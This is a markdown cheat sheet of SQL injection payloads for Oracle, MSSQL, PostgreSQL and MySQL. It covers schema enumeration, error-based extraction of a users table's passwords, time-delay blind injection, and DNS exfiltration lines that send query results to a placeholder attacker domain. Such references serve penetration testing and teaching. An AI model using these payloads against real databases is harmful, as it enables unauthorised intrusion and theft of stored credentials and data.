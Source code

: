 # SQL Injection Cheat Sheet (Summary)

## String concatenation

* **Oracle**: `'a'||'b'`
* **MSSQL**: `'a'+'b'`
* **PostgreSQL**: `'a'||'b'`
* **MySQL**: `'a' 'b'` , `CONCAT('a','b')`

## Substring

* **Oracle**: `SUBSTR('foobar',4,2)`
* **MSSQL**: `SUBSTRING('foobar',4,2)`
* **PostgreSQL/MySQL**: `SUBSTRING('foobar',4,2)`

## Comments

* **Oracle/MSSQL/PostgreSQL**: `--` , `/*...*/`
* **MySQL**: `#` , `-- ` , `/*...*/`

## Database version

* **Oracle**: `SELECT banner FROM v$version`
* **MSSQL**: `SELECT @@version`
* **PostgreSQL**: `SELECT version()`
* **MySQL**: `SELECT @@version`

## List tables & columns

* **All DBs**: `SELECT * FROM information_schema.tables`
* **Columns**: `SELECT * FROM information_schema.columns WHERE table_name='X'`
* **Oracle**: `all_tables`, `all_tab_columns`

## Conditional errors

* **Oracle**: `CASE WHEN (cond) THEN TO_CHAR(1/0) END`
* **MSSQL**: `CASE WHEN (cond) THEN 1/0 END`
* **PostgreSQL**: `1=(SELECT CASE WHEN (cond) THEN 1/(SELECT 0))`
* **MySQL**: `IF(cond,(SELECT table_name FROM information_schema.tables),'a')`

## Extracting via error messages

* **MSSQL**: `SELECT 'foo' WHERE 1=(SELECT 'secret')`
* **PostgreSQL**: `CAST((SELECT password FROM users LIMIT 1) AS int)`
* **MySQL**: `EXTRACTVALUE(1, CONCAT(0x5c,(SELECT 'secret')))`

## Batched queries

* **MSSQL/PostgreSQL/MySQL**: `QUERY1; QUERY2`
* **Oracle**: ❌

## Time delays

* **Oracle**: `dbms_pipe.receive_message(('a'),10)`
* **MSSQL**: `WAITFOR DELAY '0:0:10'`
* **PostgreSQL**: `pg_sleep(10)`
* **MySQL**: `SLEEP(10)`

## Conditional time delays

* **Oracle**: `CASE WHEN (cond) THEN dbms_pipe.receive_message(('a'),10)`
* **MSSQL**: `IF(cond) WAITFOR DELAY '0:0:10'`
* **PostgreSQL**: `CASE WHEN (cond) THEN pg_sleep(10)`
* **MySQL**: `IF(cond,SLEEP(10),'a')`

## DNS lookup

* **Oracle**: `EXTRACTVALUE(xmltype('<!DOCTYPE ...>'),'/l')`
* **MSSQL**: `exec master..xp_dirtree '//DOMAIN/a'`
* **PostgreSQL**: `copy (SELECT '') to program 'nslookup DOMAIN'`
* **MySQL (Windows)**: `LOAD_FILE('\\\\DOMAIN\\a')` , `...INTO OUTFILE '\\\\DOMAIN\\a'`

## DNS exfiltration

* **Oracle**: `EXTRACTVALUE(xmltype('<!DOCTYPE ...'||(SELECT QUERY)||'.DOMAIN>'),'/l')`
* **MSSQL**: `declare @p varchar(1024); set @p=(SELECT QUERY); exec('master..xp_dirtree "//'+@p+'.DOMAIN/a"')`
* **PostgreSQL**: Function → `nslookup QUERY.DOMAIN`
* **MySQL (Windows)**: `SELECT QUERY INTO OUTFILE '\\\\DOMAIN\\a'`

---
